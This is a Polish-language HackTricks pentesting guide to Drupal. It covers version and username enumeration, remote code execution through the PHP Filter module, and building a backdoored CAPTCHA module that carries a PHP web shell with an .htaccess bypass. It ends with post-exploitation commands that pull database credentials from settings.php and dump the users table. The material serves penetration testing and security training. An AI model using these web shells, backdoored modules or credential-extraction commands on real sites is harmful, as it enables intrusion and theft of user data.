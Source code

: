 # Drupal

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Kup [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Odkrywanie

* Sprawdź **meta**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Węzeł**: Drupal **indeksuje swoją zawartość za pomocą węzłów**. Węzeł może **przechowywać wszystko**, takie jak wpis na blogu, ankieta, artykuł, itp. URI strony mają zazwyczaj formę `/node/<nodeid>`.
```bash
curl drupal-site.com/node/1
```
## Wyliczanie

Drupal obsługuje **trzy rodzaje użytkowników** domyślnie:

1. **`Administrator`**: Ten użytkownik ma pełną kontrolę nad stroną internetową Drupal.
2. **`Użytkownik uwierzytelniony`**: Ci użytkownicy mogą zalogować się na stronie internetowej i wykonywać operacje takie jak dodawanie i edytowanie artykułów na podstawie swoich uprawnień.
3. **`Anonimowy`**: Wszyscy odwiedzający stronę internetową są uznawani za anonimowych. Domyślnie tym użytkownikom wolno tylko czytać posty.

### Wersja

* Sprawdź `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Nowe instalacje Drupal domyślnie blokują dostęp do plików `CHANGELOG.txt` i `README.txt`.
{% endhint %}

### Wyliczanie nazwy użytkownika

#### Rejestracja

W _/user/register_ spróbuj utworzyć nazwę użytkownika, a jeśli nazwa jest już zajęta, zostaniesz poinformowany:

![](<../../.gitbook/assets/image (325).png>)

#### Żądanie nowego hasła

Jeśli żądasz nowego hasła dla istniejącej nazwy użytkownika:

![](<../../.gitbook/assets/image (900).png>)

Jeśli żądasz nowego hasła dla nieistniejącej nazwy użytkownika:

![](<../../.gitbook/assets/image (304).png>)

### Pobierz liczbę użytkowników

Odwiedzając _/user/\<number>_ możesz zobaczyć liczbę istniejących użytkowników, w tym przypadku jest 2, ponieważ _/users/3_ zwraca błąd not found:

![](<../../.gitbook/assets/image (330).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### Ukryte strony

**Fuzz `/node/$`, gdzie `$` to liczba** (od 1 do 500 na przykład).\
Możesz znaleźć **ukryte strony** (testowe, deweloperskie), które nie są indeksowane przez wyszukiwarki.

#### Informacje o zainstalowanych modułach
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Automatyczne
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### Z modułem PHP Filter

{% hint style="warning" %}
W starszych wersjach Drupal **(przed wersją 8)** było możliwe zalogowanie się jako administrator i **włączenie modułu `PHP filter`**, który "Umożliwia ocenienie osadzonego kodu PHP/skrótów."
{% endhint %}

Musisz mieć zainstalowany **plugin php** (sprawdź to przechodząc do _/modules/php_ i jeśli zwraca **403**, to **istnieje**, jeśli **nie znaleziono**, to **plugin php nie jest zainstalowany**)

Przejdź do _Modules_ -> (**Sprawdź**) _PHP Filter_ -> _Zapisz konfigurację_

![](<../../.gitbook/assets/image (247) (1).png>)

Następnie kliknij _Dodaj zawartość_ -> Wybierz _Podstawowa strona_ lub _Artykuł_ -> Napisz _kod powłoki php w treści_ -> Wybierz _Kod PHP_ w _Format tekstu_ -> Wybierz _Podgląd_

![](<../../.gitbook/assets/image (335).png>)

Na koniec po prostu przejdź do nowo utworzonego węzła:
```bash
curl http://drupal-site.local/node/3
```
### Zainstaluj moduł PHP Filter

Od wersji **8 i nowszych**, [**moduł PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **nie jest instalowany domyślnie**. Aby skorzystać z tej funkcjonalności, musimy **zainstalować moduł samodzielnie**.

1. Pobierz najnowszą wersję modułu ze strony internetowej Drupal.
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Po pobraniu przejdź do **`Administracja`** > **`Raporty`** > **`Dostępne aktualizacje`**.
3. Kliknij **`Przeglądaj`**, wybierz plik z katalogu, do którego go pobraliśmy, a następnie kliknij **`Zainstaluj`**.
4. Po zainstalowaniu modułu możemy kliknąć **`Zawartość`** i **utworzyć nową podstawową stronę**, podobnie jak w przykładzie dla Drupal 7. Ponownie upewnij się, że **wybrano `Kod PHP` z rozwijanej listy `Format tekstu`**.

### Moduł z tylnymi drzwiami

Moduł z tylnymi drzwiami można stworzyć poprzez **dodanie powłoki do istniejącego modułu**. Moduły można znaleźć na stronie drupal.org. Wybierzmy moduł, na przykład [CAPTCHA](https://www.drupal.org/project/captcha). Przewiń w dół i skopiuj link do archiwum [tar.gz](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Pobierz archiwum i wypakuj jego zawartość.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Utwórz **PHP web shell** o następującej zawartości:
```php
<?php
system($_GET["cmd"]);
?>
```
* Następnie musimy utworzyć plik **`.htaccess`**, aby uzyskać dostęp do folderu. Jest to konieczne, ponieważ Drupal odmawia bezpośredniego dostępu do folderu **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Powyższa konfiguracja będzie stosować reguły dla folderu /, gdy żądamy pliku w /modules. Skopiuj oba te pliki do folderu captcha i utwórz archiwum.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Zakładając, że mamy **dostęp administracyjny** do strony internetowej, klikamy na **`Zarządzaj`**, a następnie na **`Rozszerzenia`** w pasku bocznym. Następnie klikamy przycisk **`+ Zainstaluj nowy moduł`**, i zostaniemy przeniesieni do strony instalacji, na przykład `http://drupal-site.local/admin/modules/install`. Przejdź do zainfekowanego archiwum Captcha i kliknij **`Zainstaluj`**.
* Po udanej instalacji, przejdź do **`/modules/captcha/shell.php`** aby wykonywać polecenia.

## Po Wykorzystaniu

### Odczytaj settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Wyciek użytkowników z bazy danych
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Odnośniki

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
